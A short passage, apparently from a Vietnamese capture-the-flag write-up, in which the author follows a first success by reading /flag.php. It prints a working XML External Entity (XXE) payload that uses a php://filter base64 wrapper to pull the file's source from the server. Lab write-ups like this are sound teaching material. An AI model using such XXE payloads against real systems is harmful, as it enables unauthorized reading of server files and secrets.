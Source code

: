 Hoạt động ngay trong lần thử đầu tiên.

Tiếp theo hãy tiến hành đọc `/flag.php`

```xml
<?xml version="1.0"?>

<!DOCTYPE payload [

  <!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">

]>
            <root>
            <name>&payload;</name>
            <details>testing</details>
            <date>2025-07-12</date>
            </root>
```

![](images/42.png)

![](images/43.png)